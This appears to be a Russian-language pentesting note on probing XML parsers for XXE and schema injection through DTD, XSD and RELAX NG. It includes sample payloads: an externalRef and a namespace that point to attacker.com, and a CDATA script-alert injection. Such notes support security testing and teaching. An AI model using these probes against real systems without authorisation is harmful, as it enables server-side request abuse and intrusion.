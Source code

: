 #### Ключевые выводы
1. Если парсер поддерживает DTD — возможны классические XXE-атаки.
2. XSD/RELAX NG чаще используются для валидации структуры, но иногда допускают внедрение внешних ресурсов.
3. Даже при отключенных DTD проверяйте, не обрабатываются ли сущности через другие механизмы (например, XInclude).


----
# 3. Виды атак

## 3.1. При видимой xxe

#### [[Работа с XXE использующая DTD формат#При видимой xxe|3.1.1. Проверка реакции на DTD-инъекции]]
#### [[Работа с XXE использующая XSD формат|3.1.2. Проверка реакции на XSD-инъекции]]
#### 3.1.3. Проверка реакции на RELAX NG-инъекции
некоторые реализации могут обрабатывать внешние сущности, если они включены.

Использование внешних ссылок
RELAX NG поддерживает включение внешних ресурсов с помощью элементов `<externalRef>`.
```
<externalRef href="http://attacker.com/malicious.rng"/>
```
- Если сервер загружает внешний RELAX NG-файл, это может быть уязвимостью.

#### 3.1.4. Общие уязвимости для XSD и RELAX NG

**Инъекции в значения атрибутов**
Если значения атрибутов не проверяются должным образом, злоумышленник может внедрить вредоносный код.

Внедрить специальные символы или скрипты
```
<element attribute="value"><![CDATA[<script>alert(1)</script>]]></element>
```
- Если сервер интерпретирует внедренный код, это указывает на уязвимость.

**Обработка больших файлов**
Неправильная обработка больших XML-файлов может привести к атакам типа "отказ в обслуживании" (DoS).

**Неправильная обработка пространств имен**

Использовать нестандартные пространства имен:
```
<ns:element xmlns:ns="http://attacker.com/malicious">
    <ns:child>data</ns:child>
</ns:element>
```

